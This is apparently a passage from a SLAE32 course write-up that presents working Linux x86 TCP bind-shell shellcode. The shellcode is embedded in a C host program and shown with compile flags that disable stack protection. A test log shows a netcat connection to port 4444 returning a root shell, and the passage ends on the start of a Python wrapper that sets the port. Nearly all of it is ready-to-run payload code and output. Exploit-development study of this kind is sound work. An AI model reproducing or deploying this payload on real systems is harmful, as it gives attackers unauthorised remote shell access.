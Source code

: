 ### Adding the Shellcode to a Host Program
```c
// Author:   boku
// Filename: shellcode.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89"
"\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xd2\x52"
"\x66\x68\x11\x5c\x66\x53\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89"
"\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0\x31\xc9\xb1\x02\xb0\x3f"
"\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

### Compiling the Host Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c 
```

### Testing the Shellcode within by Executing the Host Program
#### Terminal Window 1
```console
root# ./shellcode 
Shellcode Length:  114
```
#### Terminal Window 2
```console
root# netstat -tnalp | grep shellcode
tcp      0      0 0.0.0.0:4444     0.0.0.0:*   LISTEN    19143/shellcode 
root# nc.traditional 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
Perfect! Our TCP-IP Bind Shell, Shellcode works as intended when injected into another program!  
The next assignment in the SLAE32 course is to create a TCP-IP Reverse Shell, Shellcode.

## TCP Bind Shellcode Wrapper
#### Python Wrapper Script
```python
#!/usr/bin/python
# Filename: tcpBind.py
# Author:   boku

# Take users TCP port as input
port = raw_input("Enter TCP Port Number: ")
# Convert input string to an integer
deciPort = int(port)
# Format the integer to Hex Integer
hexPort = "{:02x}".format(deciPort)
#print "Hex value of Decimal Number:",hexPort
```